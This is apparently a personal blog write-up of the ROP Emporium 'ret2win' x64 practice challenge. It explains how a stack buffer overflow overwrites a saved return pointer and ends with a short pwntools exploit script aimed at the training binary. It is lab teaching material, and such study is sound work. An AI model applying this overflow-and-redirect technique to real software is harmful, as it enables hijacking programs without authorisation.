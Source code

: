 ```yaml
---
layout: post
permalink: /ROP_emporium/2022-07-13-ROP-x64-Challenge-1
title: ROP x64 Challenge 1
status: in progress
comments: true
date: 2022-07-13
---
```


## Challenge 1 Ret2win

This challenge introduces the concept of a buffer overflow and controlling the instruction pointer of an executable. An important thing to know is that all the computer does is look at a chunk of binary in memory and then execute what it tells the computer to do. Then it looks at the next chunk of memory and so on and so forth.

However, occasionally the code needs to jump to other parts of code in order to function correctly (think of an if statement or a loop). To do this the computer simply reads an instruction that tells it to jump to a different part of code, say 20 values up/down from where it is now. 

That works great for loops and if statements, but programmers often want to call code from many different parts of the program (think functions). So in the middle of doing A, I want the program to stop, go do B, then come back and finish A. I also want to be able to do that while doing C, D, and F. The problem for the program, is once it finishes B, where does it go back to, A, C, D or F. It has to store that information somewhere and it is stored on the stack, which can be considered the memory of every function. The first thing a function does is store where it should return to on the stack and the last thing a function does is tell the computer to return back to that location.

What we are going to try and do is change that value on the stack so when the program returns to that stored location it returns to where we want it to go.

We see from running the ret2win binary that it will "attempt to fit 56 bytes of user input into 32 bytes of stack buffer!" and after looking at the stack in [[pwndbg]] we are able to see the following layout:

> ./ret2win 
	ret2win by ROP Emporium
	x86_64
	For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
	What could possibly go wrong?
	You there, may I have your input please? And don't worry about null bytes, we're using read()!

All local variables are on the stack and a base pointer (which we don't have to worry about). So assuming there are no other local variables, there is 40 bytes bytes between the read and the return pointer. We can craft a payload like this:
```
        | stack          |
        | -------------- |
8 bytes | start buffer   |
8 bytes | buffer         |
8 bytes | buffer         |
8 bytes | buffer         |
8 bytes | base pointer   |
8 bytes | return pointer | # where we are going to return to
8 bytes | -------------- |

```
By writing in the first 32+8 bytes of garbage, we are then able to write whatever we want into the return pointer. So all we have to do is look to see what the value should be.
```
pwndbg> info functions
All defined functions:

Non-debugging symbols:
...
0x0000000000400690  frame_dummy
0x0000000000400697  main
0x00000000004006e8  pwnme
0x0000000000400756  ret2win
...
pwndbg>
```

Looking at the functions in the binary we see there is one called ret2win or return here to win which seems super promising. Piecing that all together and we get the following exploit.

```python
from pwn import *

io = process('./ret2win')


# The amount to fill the buffer
junk = b'A' * 0x20

# The 8 bytes to fill the new base pointer from the leave
new_bp = p32(0xcafebabe)*2

new_IP = p32(0x00400756) # The ret2win pointer

payload = junk + new_bp +  new_IP

# Print the payload for debugging puropses
print("The payload is:")
print(payload)

# wait for debugger to be attached
input("Hit enter to apptempt exploit")

# read the output and send the payload
print(io.clean(0.5).decode("utf-8"))
io.send(junk+new_bp + new_IP)



# Once done debugging, read the output
input("exploit sent hit enter to end")
print(io.clean(0.5).decode("utf-8"))


```

The exploit will print out the pid of the process and then wait in order to attach gdb with `gdb -p $pid` for debugging it live.

